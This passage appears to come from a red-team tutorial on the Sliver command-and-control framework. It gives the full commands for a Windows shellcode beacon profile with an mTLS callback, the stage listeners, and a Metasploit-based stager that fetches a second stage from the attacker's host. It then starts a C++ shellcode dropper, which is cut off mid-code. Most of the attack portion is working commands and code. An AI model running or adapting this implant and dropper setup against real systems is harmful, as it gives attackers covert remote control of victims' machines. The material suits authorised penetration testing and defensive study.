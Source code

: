 ```shell
profiles new beacon --arch amd64 --os windows --mtls 10.10.69.24:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 funnier_bytes
```

Once we've created the profile, we start a listener for the initial callback. We specify the profile to tell the server that when you get a callback on this URL, the agent you should send a Sliver (i.e. agent) with the specified profile. We use the `--prepend-size` since we're going to be using the Metasploit/`msfvenom` stager, but if you write your own custom one, you shouldn't include that flag.
```shell
stage-listener --url http://10.10.69.24:8080 --profile funnier_bytes --prepend-size
```

We then start another listener to catch the stage 2 callback. 
```shell
mtls --lhost 10.10.69.24 --lport 443
```

And then we actually generate the stager with the correct parameters.
```shell
generate stager -r http --lhost 10.10.69.24 --lport 8080
```

> If you are having unexpected errors here like `rpc error: code = Unknown desc = exit status 2`, be sure to check the server logs first for troubleshooting. The current version of Sliver requires a fairly recent version of Metasploit, so versioning is something to consider.

We can see the size of this staged payload is remarkably smaller than the stageless binary.
```shell
kali@transistor:~/Documents/sliver-test$ ls -la
total 15796
drwxr-xr-x 2 kali kali     4096 Sep 28 00:13 .
drwxr-xr-x 9 kali kali     4096 Sep 22 20:35 ..
-rwx------ 1 kali kali      969 Sep 28 00:13 ALERT_FORUM
-rwx------ 1 kali kali 16140288 Sep 25 01:38 DIFFICULT_DYNAMO.exe
-rw-r--r-- 1 kali kali    20065 Sep 26 00:50 shellcrypt.py
```

Since I used shellcode, I'll place it into a simple C++ dropper. This is also a huge benefit of staged payloads, as they're much easier to work with when developing custom droppers and such. I'm using C++ because it's the language I first learned when doing malware development with [Sektor7](https://institute.sektor7.net/) (great courses by the way), but you're free to insert this into any programming language to your heart's content. I highly recommend checking out this repo by [chvancooten](https://github.com/chvancooten/maldev-for-dummies) for more info on developing your own loaders and droppers.

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// change this out for the shellcode you're using!
unsigned char payload[3] = {
	0x90, 0x90, 0xcc
};
unsigned int payload_len = sizeof(payload);

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

```